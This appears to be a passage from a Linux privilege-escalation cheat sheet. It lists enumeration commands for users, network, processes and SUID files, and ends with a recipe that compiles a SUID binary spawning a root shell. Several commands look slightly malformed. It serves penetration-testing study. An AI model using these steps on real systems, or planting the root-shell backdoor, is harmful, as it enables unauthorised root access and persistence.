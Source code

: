 Anything else in the environmental variables? symlinks?
```
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bash_logout
env
set
find / -type l -ls
```
Anything going on with the network? hidden services? logged in users?
```
/sbin/ifconfig -a 
cat /etc/network/interfaces 
cat /etc/sysconfig/network
lsof -i 
lsof -i :80 
grep 80 /etc/services 
netstat -antup 
netstat -antpx 
netstat -tulpn 
chkconfig --list 
chkconfig --list | grep 3:on 
last 
w
arp -a 
```

Can you sniff traffic?
```
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```



### SUID Files, Root Services, and Other Files

Check for things running as root
```
ps aux | grep root
ps -ef | grep root
```
Check the version of something that's installed
```
dpkg -l | grep -i PAM
```
Any file-systems mounted or unmounted?
```
mount
df -h
cat /etc/fstab
```
Then do suid/guid and other interesting files.
```
find / -perm -4000 -exec ls -al -print 2>/dev/null {} \;
find / -uid 0 -perm -4000 2>/dev/null
```
To create our own SUID binary
```
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid 
sudo chmod +s /tmp/suid 
```
